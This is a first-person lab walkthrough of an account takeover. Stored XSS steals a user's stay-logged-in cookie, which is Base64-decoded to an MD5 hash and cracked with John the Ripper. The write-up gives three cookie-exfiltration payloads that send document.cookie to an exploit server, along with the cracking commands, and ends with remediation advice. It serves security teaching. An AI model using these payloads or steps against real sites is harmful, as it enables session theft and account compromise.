# Overview

This lab demonstrates how a weak persistent authentication mechanism can lead to account takeover. By exploiting a `stored XSS` vulnerability, I captured another user's `stay-logged-in` cookie, decoded it, and recovered the password from its MD5 hash using offline password cracking.

The recovered password allowed me to access Carlos's account and complete the lab.

# Question / Lab Objective

The objective was to exploit the weak stay-logged-in cookie mechanism to access Carlos's account without going through the normal login process or knowing his MFA code.



# Walkthrough

## 1. Exploring the application

After launching the lab, I accessed the target application and explored its available functionality. The website displayed a collection of blog posts, along with a **My Account** option and a **Go to exploit server** link at the top.



I browsed the application to understand its structure and identify potential entry points for further investigation.

At this stage, I had not identified any obvious authentication weaknesses.

## 2. Inspecting the login functionality

I clicked **My Account**, which redirected me to the login page. I also noticed a **Stay logged in** checkbox.

I logged in using the provided credentials for the user `wiener`, making sure to select the checkbox.



After logging in, I found account management options, including updating the email address and deleting the account.



Next, I clicked **Go to exploit server**. The exploit server provided a unique URL in the following format:

`https://exploit-<lab-id>.exploit-server.net/exploit`

It also provided options such as **Store**, **View exploit**, and **Access log**. For this lab, I was particularly interested in the `Access log` because it would help me inspect incoming requests and retrieve any captured cookies.



## 3. Exploiting the stored XSS vulnerability

The lab indicated that the blog post comment functionality was vulnerable to cross-site scripting (XSS).

I navigated to a blog post's comment section and submitted the following payload:

**Payload 1:**

```html
<script>
new Image().src="https://exploit-<lab-id>.exploit-server.net/exploit" + document.cookie;
</script>
```

This JavaScript creates an image request to my exploit server. It appends the current visitor's cookies to the request URL.

Other payload variations can also send cookie data to an external server.

**Payload 2:**

```html
<script>
fetch("https://exploit-<lab-id>.exploit-server.net/exploit" + document.cookie, {
    method: 'GET',
    mode: 'no-cors'
});
</script>
```

**Payload 3:**

```html
<script>
document.location = "https://exploit-<lab-id>.exploit-server.net/exploit" + document.cookie;
</script>
```

I used Payload 1 for this lab.



After submitting the comment, the application redirected me and displayed a thank-you message.



Payloads 1 and 2 send the cookie data through a background request, so they generally do not navigate the visitor away from the vulnerable page. Payload 3 changes the browser's current location, redirecting the visitor to the exploit server. This makes the third approach more noticeable and can interrupt the normal browsing experience.

**How does this capture another user's cookie?**

The important point is that the payload is stored as a blog comment. It does not need to be executed by me again manually.

When another user visits the affected blog post, the browser retrieves and renders the stored comment. Because the application does not properly prevent the injected JavaScript from executing, the browser runs the script using the vulnerable website's origin.

The process looks like this:

```text
Attacker submits malicious comment
              |
              v
     Comment is stored
              |
              v
      Carlos visits the post
              |
              v
  Browser executes injected JavaScript
              |
              v
 JavaScript reads document.cookie
              |
              v
 Cookie data is sent to exploit server
              |
              v
 Attacker checks the Access log
```

In this way, the payload can capture cookies belonging to visitors who view the malicious comment, rather than only the account used to submit it.

This technique depends on the cookie being accessible to JavaScript. Cookies protected with the `HttpOnly` attribute cannot normally be read through `document.cookie`.

## 4. Capturing Carlos's cookie from the exploit server

After submitting the comment, I returned to the exploit server and clicked **Access log**.

I noticed incoming requests from different IP addresses. One of the requests contained cookie data associated with the user `carlos`.

This indicated that the stored XSS payload had executed when Carlos visited the affected page and sent his cookie data to my exploit server.



I copied the value of Carlos's `stay-logged-in` cookie for further analysis.

## 5. Decoding and understanding the stay-logged-in cookie

I copied the `stay-logged-in` cookie value and sent it to the **Decoder** tab in Burp Suite.

The cookie appeared to be Base64-encoded. After decoding it, I discovered a username followed by a 32-character hexadecimal value.

The decoded value had the following general structure:

```text
username:MD5_password_hash
```

The 32-character hexadecimal value suggested that the password was represented by an MD5 hash.

MD5 is a hashing algorithm, not an encryption algorithm. Unlike encryption, hashing is designed to be one-way. However, an attacker can attempt to recover the original password by generating hashes of possible password guesses and comparing them with the stolen hash.

Because the attacker already has the hash, these guesses can be tested locally without sending login requests to the target application. This is known as **offline password cracking**.



## 6. Cracking the MD5 password hash

After identifying the MD5 hash, I attempted to recover the original password using John the Ripper.

First, I saved the hash into a file:

```bash
echo '26323c16d5f4dabff3bb136f2460a943' > hash.txt
```

Next, I used John with the RockYou password list:

```bash
john --format=Raw-MD5 --wordlist=/usr/share/seclists/Passwords/rockyou-clean.txt hash.txt
```

The `--format=Raw-MD5` option tells John the Ripper to treat the supplied value as a raw MD5 hash.

The `--wordlist` option specifies the password list that John should use to generate password guesses.

Finally, I displayed the recovered result:

```bash
john --show --format=Raw-MD5 hash.txt
```

John successfully identified the password associated with the hash.



## 7. Logging in to Carlos's account

After recovering the password, I returned to the target application and used Carlos's credentials to log in.

I successfully accessed Carlos's account.



## 8. Deleting Carlos's account

After logging in, I clicked the **Delete account** option.

The application displayed a confirmation message and requested Carlos's password before proceeding with the deletion.

I entered the recovered password and clicked the confirmation button.



## 9. Confirming lab completion

The application displayed the lab completion message, confirming that I had successfully deleted Carlos's account.



# Key Takeaways

- **Stored XSS:** Malicious JavaScript can be stored in an application and executed when another user visits the affected page.
- **Cookie theft:** JavaScript can access cookies that are not protected by the `HttpOnly` attribute.
- **Base64 encoding:** Base64 is an encoding mechanism, not encryption. Anyone who obtains the encoded value can decode it.
- **Weak password hashing:** MD5 is unsuitable for password storage because it is fast and allows attackers to test large numbers of password guesses.
- **Offline password cracking:** Once an attacker obtains a password hash, they can attempt to recover the original password without interacting with the target application's login page.
- **Persistent authentication risks:** A poorly designed stay-logged-in mechanism can expose credentials or allow unauthorized account access.

# Security Impact

An attacker who exploits stored XSS can potentially steal authentication-related cookies belonging to other users. If a stolen persistent-login cookie contains a weakly protected password hash, the attacker may recover the original password through offline password cracking.

With the recovered credentials, an attacker could gain unauthorized access to the victim's account and perform actions available to that user.

Depending on the application's functionality and account privileges, this could result in account takeover, unauthorized data access, account modification, or account deletion.

# Remediation

1. **Prevent stored XSS:** Apply context-aware output encoding and appropriate input validation. Use a well-configured Content Security Policy (CSP) as an additional security layer.
2. **Protect authentication cookies:** Set the `HttpOnly`, `Secure`, and appropriate `SameSite` attributes on session and persistent-login cookies.
3. **Use secure password hashing:** Never store passwords or password-derived values using MD5 or other fast general-purpose hashing algorithms. Use Argon2id, bcrypt, or scrypt with appropriate parameters and unique salts.
4. **Redesign persistent authentication:** Use securely generated, unpredictable, revocable tokens rather than embedding password hashes in persistent-login cookies.
5. **Protect sensitive actions:** Require appropriate reauthentication for critical operations, such as changing account credentials or deleting an account.
6. **Monitor suspicious activity:** Log and investigate unusual authentication activity, token reuse, and unexpected requests to sensitive endpoints.

# Conclusion

This lab demonstrated how multiple weaknesses can be combined to achieve account takeover. A stored XSS vulnerability allowed me to capture Carlos's persistent-login cookie. After decoding the cookie, I identified an MD5 password hash and recovered the original password using John the Ripper.

The recovered credentials allowed me to access Carlos's account and delete it, completing the lab.

The key lesson is that seemingly separate weaknesses, such as stored XSS, exposed cookies, and weak password hashing, can combine to create a serious authentication vulnerability.

*Thanks for reading!*
